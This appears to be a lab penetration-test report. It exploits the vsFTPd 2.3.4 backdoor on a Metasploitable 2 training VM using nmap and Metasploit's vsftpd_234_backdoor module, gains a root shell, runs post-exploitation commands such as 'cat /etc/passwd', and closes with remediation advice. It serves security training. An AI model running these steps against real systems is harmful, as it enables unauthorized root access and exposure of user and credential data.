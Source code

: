 # Metasploit Exploit

## Target: Metasploitable 2 (Linux)

## Executive Summary
 **This penetration test aimed to exploit a vulnerable FTP service on a Metasploitable 2 machine using Metasploit. The successful attack led to root access, allowing full control over the system. The findings demonstrate the risk of running outdated services with known vulnerabilities.** 
________________________________________
## Scope & Objectives
## Scope:
 **•	Target machine: Metasploitable 2 (IP: 192.168.235.132)**
  **•	Attacker machine: Kali Linux**
 **•	Exploited service: vsFTPd 2.3.4 (Port 21)**
## Objectives:
 **1.	Identify vulnerabilities in the target system.**
 **2.	Exploit vsFTPd 2.3.4 backdoor vulnerability.**
 **3.	Gain unauthorized access and escalate privileges.**
 **4.	Document findings and suggest remediation.**
________________________________________
## Exploitation Process
 **Information Gathering**
  **Using Nmap to scan open ports and services:**
 ## **```nmap -sV -A <target-IP>```**
![image](https://github.com/user-attachments/assets/cd504c33-0559-4eab-b88e-43dcbd42d438)
![image](https://github.com/user-attachments/assets/678a6291-4f8d-4c19-9fa7-457af37648c6)
![image](https://github.com/user-attachments/assets/9ed00286-e1b9-4230-8976-99e91c5eb220)
![image](https://github.com/user-attachments/assets/216dd39a-1ba1-4599-b244-0241d75ea6bc)
![image](https://github.com/user-attachments/assets/cf7e4253-ceb8-4878-a11d-e36790224479)
![image](https://github.com/user-attachments/assets/0a9e5032-b054-4b34-ada6-a1964ac68a04)
![image](https://github.com/user-attachments/assets/716367b5-fee7-435a-872e-929ee34e2954)

 **Findings: Port 21 (FTP) running vsFTPd 2.3.4, a vulnerable version.**
 **Exploitation with Metasploit**
 **1.Launch Metasploit:**
 ## **```msfconsole```**
![image](https://github.com/user-attachments/assets/e5c5780d-df07-4268-bd26-7a1f4e1f6e60)
 **2.Use the exploit:**
 ## **```exploit/unix/ftp/vsftpd_234_backdoor```** ,
 ## **```set RHOSTS <target-IP>```**  
 ## **```exploit```**
![image](https://github.com/user-attachments/assets/23d873f3-4449-43e0-9af4-00a8fb964ab9)
 **Successful shell access obtained:[+] UID: uid=0(root) gid=0(root)  ,  [*] Command shell session 1 opened**
 ![image](https://github.com/user-attachments/assets/08335b89-439f-4c55-83e7-688ff5b73835)
**Post-Exploitation**
**Commands executed to extract system details:**

**whoami      # Confirm root access** ,
**uname -a    # System information** ,
**cat /etc/passwd  # List system users**
![image](https://github.com/user-attachments/assets/40849ee0-8a3e-45c8-9c18-0b0e99ee318e)
 **ps aux      # Running processes** 
![image](https://github.com/user-attachments/assets/99bfe22b-17e9-41a5-882e-a2b463857dab)
 netstat -tulnp  # Active network connections
 ![image](https://github.com/user-attachments/assets/28112e4e-b185-4ed5-b1e8-a082240524ee)

 ## Findings & Impact
**Findings:**
 **1.	vsFTPd 2.3.4 backdoor allowed unauthenticated root access.**
 **2.	No firewall or intrusion detection prevented exploitation.**
 **3.	The system contained multiple misconfigured user accounts.**
 **Impact:**
 **•	High risk: Root access means full control over the machine.**
 **•	Potential for further attacks: Could be used for lateral movement in a network.**
 **•	Data exposure: Access to system files, logs, and stored credentials.**
________________________________________
## Recommendations & Remediation
 **1.	Update vsFTPd to the latest secure version.**
 **2.	Disable unused services to minimize attack surface.**
 **3.	Implement firewall rules to restrict unauthorized access.**
 **4.	Use intrusion detection systems (IDS) like Snort or Suricata.**
 **5.	Enforce strong authentication mechanisms to prevent unauthorized access.**
________________________________________
## Conclusion
**This penetration test successfully exploited a known vulnerability in vsFTPd, leading to full system compromise. The findings highlight the importance of regularly updating and securing systems. Implementing the recommended security measures will reduce the risk of future attacks.**

